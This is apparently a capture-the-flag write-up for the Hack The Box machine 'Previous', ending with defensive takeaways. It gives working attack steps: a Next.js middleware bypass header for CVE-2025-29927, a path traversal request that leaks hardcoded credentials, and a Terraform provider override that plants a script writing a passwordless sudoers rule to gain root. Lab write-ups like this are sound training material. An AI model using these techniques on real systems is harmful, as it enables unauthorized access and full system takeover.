



## Reconnaissance

### Service Scan

```bash
nmap -sCV -vv previous.htb
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
```

Two ports - SSH and an nginx reverse proxy redirecting to `previous.htb`. Adding that to `/etc/hosts` and visiting the site reveals **PreviousJS** - a documentation platform built on Next.js.

### Enumeration

The site serves a Next.js application with a docs section. The page source shows a build ID (`qVDR2cKpRgqCslEh-llk9`) and references to `/_next/static/` assets - confirming this is a standard Next.js deployment behind nginx.

Key observations:
- Login state shown in top-right corner ("Logged in as ???")
- `/docs/getting-started` and `/docs/examples` routes available
- A user `jeremy@previous.htb` is referenced

---

## Exploitation

### CVE-2025-29927 - Next.js Middleware Authentication Bypass

The application uses Next.js middleware for authentication. [CVE-2025-29927](https://nvd.nist.gov/vuln/detail/CVE-2025-29927) allows bypassing middleware entirely by sending a crafted `X-Middleware-Subrequest` header that tricks Next.js into thinking the request is an internal subrequest.

**Bypass header:**

```http
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

By appending this header to requests, all middleware-based authentication checks are skipped - granting access to protected routes without credentials.

### Local File Inclusion

With authentication bypassed, the `/api/download` endpoint becomes accessible. The `example` parameter is vulnerable to path traversal:

```
GET /api/download?example=../../.next/server/pages/api/auth/[...nextauth].js
```



This leaks the NextAuth configuration file, which contains hardcoded credentials:

```
jeremy:MyNameIsJeremyAndILovePancakes
```

### User Access

SSH in with the extracted credentials:

```bash
ssh jeremy@previous.htb
# password: MyNameIsJeremyAndILovePancakes
```

User flag obtained.

---

## Privilege Escalation

### Sudo Enumeration

```bash
sudo -l
```

```text
User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir=/opt/examples apply
```

Jeremy can run `terraform apply` as root, but only from `/opt/examples`. The Terraform configuration there is not writable - but Terraform supports **provider dev overrides** via `~/.terraformrc`.

### Terraform Provider Override

The attack: create a `.terraformrc` that redirects the provider resolution to a directory we control, then plant a malicious "provider" binary that executes as root when Terraform initializes.

```bash
# Create the plugin directory
mkdir -p /home/jeremy/dev-plugins

# Write the Terraform config override
cat > ~/.terraformrc << 'EOF'
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/home/jeremy/dev-plugins"
  }
  direct {}
}
EOF

# Create a malicious provider binary
cat > /home/jeremy/dev-plugins/terraform-provider-examples << 'EOF'
#!/bin/sh
echo 'jeremy ALL=(ALL) NOPASSWD:ALL' > /etc/sudoers.d/jeremy
chmod 440 /etc/sudoers.d/jeremy
EOF
chmod +x /home/jeremy/dev-plugins/terraform-provider-examples
```

Run the sudo command:

```bash
sudo /usr/bin/terraform -chdir=/opt/examples apply
```

Terraform loads our malicious provider as root, writes a passwordless sudo rule for jeremy, and we escalate:

```bash
sudo su -
```

Root flag obtained.

---

## Key Takeaways

- **CVE-2025-29927** is a critical middleware bypass in Next.js - any application relying solely on middleware for auth is vulnerable. The fix is upgrading Next.js and implementing server-side auth checks.
- **Hardcoded credentials in source** - NextAuth config files should use environment variables, not inline secrets.
- **Terraform dev overrides** - the `.terraformrc` file in a user's home directory can redirect provider resolution. If `terraform apply` runs as root, any user-controlled provider path becomes a privesc vector.
